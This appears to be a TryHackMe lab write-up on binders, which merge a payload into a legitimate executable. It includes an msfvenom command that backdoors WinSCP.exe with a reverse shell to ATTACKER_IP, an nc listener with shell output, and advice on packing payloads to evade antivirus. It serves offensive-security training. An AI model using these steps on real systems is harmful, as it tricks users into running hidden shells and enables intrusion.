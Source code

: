 # Task 10 Binders

Task 10 Binders

While not an AV bypass method, binders are also important when designing a malicious payload to be distributed to end users. A **binder** is a program that merges two (or more) executables into a single one. It is often used when you want to distribute your payload hidden inside another known program to fool users into believing they are executing a different program.

![https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/5c72d80a077a1f8a813a70c01a6561e9.png](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/5c72d80a077a1f8a813a70c01a6561e9.png)

While every single binder might work slightly differently, they will basically add the code of your shellcode inside the legitimate program and have it executed somehow.

You could, for example, change the entry point in the PE header so that your shellcode executes right before the program and then redirect the execution back to the legitimate program once it is finished. This way, when the user clicks the resulting executable, your shellcode will get silently executed first and continue running the program normally without the user noticing it.

# Binding with msfvenom

You can easily plant a payload of your preference in any .exe file with **`msfvenom`**. The binary will still work as usual but execute an additional payload silently. The method used by msfvenom injects your malicious program by creating an extra thread for it, so it is slightly different from what was mentioned before but achieves the same result. Having a separate thread is even better since your program won't get blocked in case your shellcode fails for some reason.

For this task, we will be backdooring the WinSCP executable available at **`C:\Tools\WinSCP`**.

To create a backdoored WinSCP.exe we can use the following command on our Windows machine:

**Note:** Metasploit is installed in the Windows machine for your convenience, but it might take up to three minutes to generate the payload (the produced warnings can be safely ignored).

AttackBox

```
C:\> msfvenom -x WinSCP.exe -k -p windows/shell_reverse_tcp lhost=ATTACKER_IP lport=7779 -f exe -o WinSCP-evil.exe
```

```bash
msfvenom -x WinSCP.exe -k -p windows/shell_reverse_tcp lhost=ATTACKER_IP lport=7779 -f exe -o WinSCP-evil.exe
```

The resulting WinSCP-evil.exe will execute a reverse_tcp meterpreter payload without the user noticing it. Before anything else, remember to set up an **`nc`** listener to receive the reverse shell. When you execute your backdoored executable, it should launch a reverse shell back at you while continuing to execute WinSCP.exe for the user:

[Untitled Database](Task%2010%20Binders%2099b67f6c90b84d20b0f2e512933a089b/Untitled%20Database%2028f9ecc614cf4479b392c766e3ab028f.csv)

![Untitled](Task%2010%20Binders%2099b67f6c90b84d20b0f2e512933a089b/Untitled.png)

![Untitled](Task%2010%20Binders%2099b67f6c90b84d20b0f2e512933a089b/Untitled%201.png)

```bash
user@attackbox$ nc -lvp 7779      
Listening on 0.0.0.0 7779
Connection received on 10.10.183.127 49813
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

# Binders and AV

Binders won't do much to hide your payload from an AV solution. The simple fact of joining two executables without any changes means that the resulting executable will still trigger any signature that the original payload did.

The main use of binders is to fool users into believing they are executing a legitimate executable rather than a malicious payload.

When creating a real payload, you may want to use encoders, crypters, or packers to hide your shellcode from signature-based AVs and then bind it into a known executable so that the user doesn't know what is being executed.

Feel free to try and upload your bound executable to the THM Antivirus Check website (link available on your desktop) without any packing, and you should get a detection back from the server, so this method won't be of much help when trying to get the flag from the server by itself.

Answer the questions below

Will a binder help with bypassing AV solutions? (yea/nay)

nay

Can a binder be used to make a payload appear as a legitimate executable? (yea/nay)

yea